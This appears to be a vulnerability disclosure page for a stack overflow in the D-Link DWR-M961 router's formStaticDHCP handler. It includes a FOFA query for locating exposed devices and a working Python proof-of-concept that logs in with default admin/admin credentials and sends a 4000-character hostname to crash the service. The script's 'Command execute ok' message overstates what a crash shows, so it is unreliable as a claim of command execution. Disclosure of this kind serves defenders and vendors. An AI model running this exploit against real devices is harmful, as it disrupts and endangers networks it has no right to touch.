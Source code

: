 # D-link DWR-M961 has a formStaticDHCP stack overflow vulnerability

## Product Information

- Device: D-link DWR-M961
- 
- Manufacturer's website information：https://www.dlink.com.cn/

![CleanShot 2025-04-08 at 21 52 47@2x](https://github.com/user-attachments/assets/c11c338a-69f4-4860-bbf3-bdd7050fc328)

## Vulnerability Description

Saved in the /boafrm/formStaticDHCP module of the boa server of DWR_M961_V1_1_36_upgrade
In the authorization interface, the determined parameters were concatenated without string length check, resulting in a stack overflow

![CleanShot 2025-04-08 at 21 54 03@2x](https://github.com/user-attachments/assets/a09d7efe-bb1c-413e-b485-d75b4e7b2029)

fofa:"D-Link"

![CleanShot 2025-04-08 at 21 56 25@2x](https://github.com/user-attachments/assets/d6a33d5d-29bd-43e7-be57-0b0d2d28a1a0)




## Payload

Saved in the /boafrm/formStaticDHCP module of the boa server of DWR_M961_V1_1_36_upgrade
In the authorization interface, the determined parameters were concatenated without string length check, resulting in a stack overflow
```
import requests
import time
import sys
if __name__ == '__main__':


          

    if len(sys.argv) != 2:
        print("usage: python attack.py [url] [cmd]")
    url = sys.argv[1]


    data = {
        "Language":"en-us",
        "username":"admin",
        "password":"admin",
        "submit-url":"/login.htm"
    }
    res = requests.post(url + '/boafrm/formLoginSetup', data=data)
    cookies = res.cookies
    res = requests.get(url + '/tcpip_staticdhcp.htm')


  

    for cookie in cookies:
        print("Name:", cookie.name, "Value:", cookie.value)


    data = {

        "submit-url": "/tcpip_staticdhcp.htm",
        "addRsvIPFlag": "aaaa",
        "static_dhcp": "1111",
        "hostname": "x"*4000,
    }

    res = requests.post(url + '/boafrm/formStaticDHCP', data=data , cookies=cookies)
    cookies = res.cookies

  
    if res.status_code == 400:
        print("[+] Command execute ok!")
    else:
        print("[-] Command execute failed!")

```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
